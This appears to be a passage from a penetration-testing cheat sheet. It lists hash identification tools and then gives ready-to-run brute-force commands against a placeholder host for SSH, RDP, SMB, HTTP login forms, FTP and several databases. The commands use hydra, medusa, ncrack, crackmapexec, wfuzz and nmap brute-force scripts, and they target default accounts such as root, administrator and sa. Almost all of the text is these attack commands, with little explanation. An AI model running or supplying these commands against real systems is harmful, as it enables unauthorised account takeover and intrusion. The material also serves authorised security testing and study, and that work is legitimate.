 ## Hash Identification

```bash
# hash-identifier
hash-identifier

# hashid
hashid 5f4dcc3b5aa765d61d8327deb882cf99

# Online tools
# https://www.tunnelsup.com/hash-analyzer/
```

## Attack Vectors by Protocol

### SSH
```bash
hydra -l root -P passwords.txt ssh://target.com
medusa -h target.com -u root -P passwords.txt -M ssh
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt target.com
```

### RDP
```bash
hydra -l administrator -P passwords.txt rdp://target.com
ncrack -u administrator -P passwords.txt rdp://target.com
```

### SMB
```bash
hydra -l administrator -P passwords.txt smb://target.com
crackmapexec smb target.com -u users.txt -p passwords.txt
```

### HTTP/HTTPS
```bash
hydra -l admin -P passwords.txt target.com http-post-form "/login:user=^USER^&pass=^PASS^:F=failed"
wfuzz -c -z file,passwords.txt --hc 404 http://target.com/login?password=FUZZ
```

### FTP
```bash
hydra -l admin -P passwords.txt ftp://target.com
nmap --script ftp-brute -p 21 target.com
```

### Database
```bash
# MySQL
hydra -l root -P passwords.txt mysql://target.com

# PostgreSQL
hydra -l postgres -P passwords.txt postgres://target.com

# MSSQL
hydra -l sa -P passwords.txt mssql://target.com
```
